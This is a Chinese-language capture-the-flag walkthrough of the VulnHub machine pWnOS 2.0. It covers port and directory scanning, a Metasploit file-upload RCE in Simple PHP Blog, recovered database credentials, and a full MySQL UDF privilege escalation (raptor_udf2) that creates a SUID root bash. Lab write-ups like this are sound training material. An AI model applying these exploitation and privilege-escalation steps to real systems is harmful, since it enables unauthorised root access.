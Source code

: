 # pWnOS: 2.0 (Pre-Release)

2024-4-22 https://www.vulnhub.com/entry/pwnos-20-pre-release,34/

difficulty: easy to intermediate

## IP

10.10.10.100

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 85d32b0109427b204e30036dd18f95ff (DSA)
|   2048 307a319a1bb817e715df89920ecd5828 (RSA)
|_  256 1012644b7dff6a87372638b1449fcf5e (ECDSA)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Welcome to this Site!
|_http-server-header: Apache/2.2.17 (Ubuntu)
```

22 不允许匿名登陆，先看看 80 的 web 上有什么信息。

对 web 服务进行目录扫描，发现了一些目录信息：

```
http://10.10.10.100/login.php            (Status: 200) [Size: 1174]
http://10.10.10.100/login                (Status: 200) [Size: 1174]
http://10.10.10.100/register             (Status: 200) [Size: 1562]
http://10.10.10.100/register.php         (Status: 200) [Size: 1562]
http://10.10.10.100/info.php             (Status: 200) [Size: 49885]
http://10.10.10.100/info                 (Status: 200) [Size: 49873]
http://10.10.10.100/index                (Status: 200) [Size: 854]
http://10.10.10.100/index.php            (Status: 200) [Size: 854]
http://10.10.10.100/includes             (Status: 200) [Size: 1524]
http://10.10.10.100/blog                 (Status: 200) [Size: 8094]
http://10.10.10.100/activate.php         (Status: 200) [Size: 854]
http://10.10.10.100/activate             (Status: 200) [Size: 854]
```

其中 http://10.10.10.100/info.php 是一个 phpinfo 页面，我们可以从中了解到更多 php 的配置信息。

http://10.10.10.100/blog/ 显示了一个 blog 页面，http://10.10.10.100/blog/docs/INSTALL.TXT 显示了这个 CMS 的名字：Simple PHP Blog 0.4.0

搜索看能否找到相关的利用漏洞？ 在 msf 中有对应的 rce 利用漏洞：unix/webapp/sphpblog_file_upload ， 设置好相关 options 参数后，exploit 执行，得到了 meterpreter。

进入到系统 shell 执行环境下，使用 linpeas 对系统进行相关枚举，/home 目录中存在一个 dan 用户，同时发现系统还有一个 mysql 用户是超级用户。

发现了一个目录中可能存在敏感信息 /var/www/blog/config/password.txt：

```
www-data@web:/var/www/blog/config$ cat password.txt
cat password.txt
$1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/
```

但是这个哈希值无法爆破，找不到对应的明文。

在 /var/mysqli_connect.php 中获得了数据库的连接信息：

```
DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');
```

在 /var/www/mysqli_connect.php 中获得了数据库的连接信息：

```
DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'goodday');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');
```

同时发现 mysqld 是以 root 用户权限运行的，可能存在 UDF 提权。

尝试用上面得到的 2 个数据库信息，登陆 mysql 数据库，发现第一个凭据是能够登陆的：root:root@ISIntS。

## root 方法 1

使用上面得到的用户数据库密码，可以直接 su root，直接获得了最高的权限。

## root 方法 2

从 users 表中得到了管理员的信息：

```
mysql> select * from users;
select * from users;
+---------+------------+-----------+------------------+------------------------------------------+------------+----------------------------------+---------------------+
| user_id | first_name | last_name | email            | pass                                     | user_level | active                           | registration_date   |
+---------+------------+-----------+------------------+------------------------------------------+------------+----------------------------------+---------------------+
|       1 | Dan        | Privett   | admin@isints.com | c2c4b4e51d9e23c02c15702c136c3e950ba9a4af |          0 | NULL                             | 2011-05-07 17:27:01 |
+---------+------------+-----------+------------------+------------------------------------------+------------+----------------------------------+---------------------+
```

让我们尝试获得 dan 这个用户的明文密码：killerbeesareflying ，下面用这个密码 su 尝试切换到 dan 用户下，但是发现密码不对，只能尝试别的攻击面。

发现 mysql 是以 root 用户权限在运行，尝试 UDF 提权，先查询下目标数据库的配置是否满足相关 UDF 要求：

```
mysql> show variables like '%sec%';
show variables like '%sec%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv |       |
+------------------+-------+
2 rows in set (0.00 sec)

mysql> show variables like '%plugin%';
show variables like '%plugin%';
+---------------+-----------------------+
| Variable_name | Value                 |
+---------------+-----------------------+
| plugin_dir    | /usr/lib/mysql/plugin |
+---------------+-----------------------+
1 row in set (0.00 sec)
```

满足相关要求，让我们进行 udf 写入：

```bash
searchsploit mysql udf
searchsploit -m 1518
mv 1518.c raptor_udf2.c
```

将上面的 udf 源码，wget 到目标机器进行编译:

```sql
gcc -o raptor_udf2.so -shared -fPIC raptor_udf2.c

mysql -uroot -proot@ISIntS
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';   <-- 这里注意路径要设置为对应的plugin目录
create function do_system returns integer soname 'raptor_udf2.so';

select * from mysql.func;

select do_system('cp /bin/bash /tmp/bash; chmod +xs /tmp/bash');
```

执行 /tmp/bash 最终获得了 root 权限：

```bash
www-data@web:/tmp$ ./bash -p
./bash -p
bash-4.2# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

没有尝试内核版本对应的提权方式。
